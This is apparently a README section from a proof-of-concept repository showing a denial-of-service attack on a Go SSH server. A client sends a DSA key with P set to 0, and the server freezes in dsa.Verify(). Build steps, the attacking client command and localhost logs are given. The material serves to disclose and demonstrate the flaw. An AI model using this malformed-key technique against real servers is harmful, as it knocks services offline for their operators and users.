 ### The Attack

The attack has different impact depending on whether the server is started with the `-p` flag.

To build the server, cd into the server directory and run: `go build -o server .` Do the same for the client: `go build -o client .` There are test RSA and DSA keys in the server and client `data` directories. If you want to create new ones, use `ssh-keygen`.

#### Serial Server

If the server was started without the `-p` flag, then one attacking client can completely freeze the server and no more connections can be accepted. This is because the call to ssh.NewServerConn() is run on the main goroutine and is stuck in the call to dsa.Verify() for client authentication.

Start the server normally with:

```bash
$ ./server -key=./data/id_rsa
2016/04/13 07:30:27 Listening on localhost:8022
```

In another terminal start a client normally that will send a correct DSA key to the server for authentication:

```bash
$ ./client -key=./data/id_dsa
2016/04/13 07:31:31 connected
Wed Apr 13 07:31:34 CDT 2016
Wed Apr 13 07:31:37 CDT 2016
```

Swap back to the server and see that it has accepted the TCP conn and created a SSH conn:

```bash
$ ./server -key=./data/id_rsa
2016/04/13 07:31:23 Listening on localhost:8022
2016/04/13 07:31:31 Accepted an incoming TCP connection from 127.0.0.1:63516
2016/04/13 07:31:31 New SSH connection from 127.0.0.1:63516 (SSH-2.0-Go)
```

Now it's time to start an attacking client in another terminal. This will send the same DSA key that a normal client sends BUT will have the P parameter set to 0:

```bash
$ ./client -key=./data/id_dsa -attack
```

Notice the client just hangs without a 'connected' message and there are no logs of the server's time. The server also did not log creating an SSH connection, but it did accept the TCP connection. The server is now stuck on the call to dsa.Verify():

```bash
$ ./server -key=./data/id_rsa
2016/04/13 07:31:23 Listening on localhost:8022
2016/04/13 07:31:31 Accepted an incoming TCP connection from 127.0.0.1:63516
2016/04/13 07:31:31 New SSH connection from 127.0.0.1:63516 (SSH-2.0-Go)
2016/04/13 07:33:36 Accepted an incoming TCP connection from 127.0.0.1:63521
```
